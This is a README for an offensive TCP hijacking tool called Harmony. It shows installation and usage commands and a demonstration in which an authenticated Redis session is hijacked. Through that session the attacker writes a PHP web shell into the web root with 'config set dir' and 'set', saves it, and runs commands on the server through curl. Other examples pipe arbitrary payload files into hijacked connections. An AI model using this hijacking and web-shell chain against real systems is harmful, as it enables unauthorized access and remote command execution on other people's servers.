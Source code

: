 # Harmony
Harmony is a pretty simple general-purpose TCP hijacking tool that can be used to inject custom payloads to a TCP connection via piping it to the program or by manually typing it. It does not work against encrypted connections like HTTPS and SFTP, but it's useful against old or misconfigured services, IOT devices and other server software that for some reason just don't have encryption enabled.
```
   ▌▐    ▌▐     ██     ▒▒▒    ░░       ░░  ░     ░   ░      ░   ·       ·      
   ▌▐    ▌▐    █  █    ▒  ▒   ░ ░     ░ ░         ░    ░          ·   ·        
   ▌▐▀▀▀▀▌▐   █▄▄▄▄█   ▒▒▒    ░  ░   ░  ░ ░          ░      ░        ·         
   ▌▐    ▌▐  █      █  ▒  ▒   ░   ░ ░   ░        ░        ░        ·           
   ▌▐    ▌▐ █        █ ▒   ▒  ░    ░    ░   ░ ░      ░     ░     ·             
```
## Demonstration
```
 Client                               Hacker
█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
█                                    █                                                            █
█$nc 192.168.1.29 6479               █$python3 harmony.py --target 192.168.1.62:192.168.1.29:6379 █
█AUTH peter myPassword1sSecure       █Sniffing for a client PSH-ACK...                            █
█OK                                  █Connection hijacked, type away!                             █
█                                    █config set dir /var/www/html                                █
█                                    █OK                                                          █
█                                    █config set dbfilename test.php                              █
█                                    █OK                                                          █
█                                    █set tcprocks "<?php system($_GET['cmd']); ?>                █
█                                    █OK                                                          █
█                                    █save                                                        █
█                                    █Killing threads and exiting...                              █
█                                    █                                                            █
█                                    █$curl 192.168.1.29/test.php?cmd=id                          █
█                                    █uid=1000(peter) gid=1000(peter)                             █
█                                    █                                                            █
█                                    █$▌                                                          █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█
```
## Installation
```
git clone https://github.com/Varppi/harmony
cd harmony
pip install -r requirements.txt
```

## Usage
`python3 harmony.py --target <target device IP>:<server IP>:<target server port>`

## Examples
```
python3 harmony.py --target 192.168.1.52:192.168.1.24:23
cat payload.bin |python3 harmony.py --target 192.168.1.39:192.168.1.53:21
```

## Learn what TCP hijacking is
https://medium.com/@SpoofIMEI/tcp-connection-hijacking-deep-dive-9bbe03fce9a9

